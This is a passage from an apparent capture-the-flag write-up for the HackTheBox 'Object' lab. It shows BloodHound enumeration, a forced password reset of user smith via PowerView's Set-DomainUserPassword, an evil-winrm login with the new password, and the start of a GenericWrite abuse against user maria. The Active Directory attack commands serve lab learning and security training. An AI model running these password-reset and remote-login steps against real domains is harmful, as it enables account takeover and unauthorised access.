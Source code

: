 
![](https://i.imgur.com/M77tw82.png)


After downloading the zip file, I will get Bloodhound ready:

```bash
sudo neo4j console
sudo bloodhound
```

After drag & dropping the zip file to Bloodhound, I will first mark account **oliver** as owned:

![](https://i.imgur.com/agSAQYw.png)


### ForceChangePassword

There is one outbound first degree object control right from **oliver** to account **smith**: 

![](https://i.imgur.com/kweKjD1.png)


The user OLIVER@OBJECT.LOCAL has the capability to change the user SMITH@OBJECT.LOCAL's password without knowing that user's current password.

I will first upload **PowerView.ps1** to the system and run it

![](https://i.imgur.com/2xXEhFS.png)


Using the commands below, I can change the password for user **smith** into **Password123!**:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword
```

![](https://i.imgur.com/UOfOUyO.png)


### Evil-Winrm

Now with the new password, I can sign-in as **smith**:

`sudo evil-winrm -i 10.10.11.132 -u smith -p 'Password123!'`

![](https://i.imgur.com/tmecbPN.png)


## Privesc:smith to maria
### GenericWrite Abuse

The user SMITH@OBJECT.LOCAL has generic write access to the user MARIA@OBJECT.LOCAL.

![](https://i.imgur.com/q4vuD4v.png)

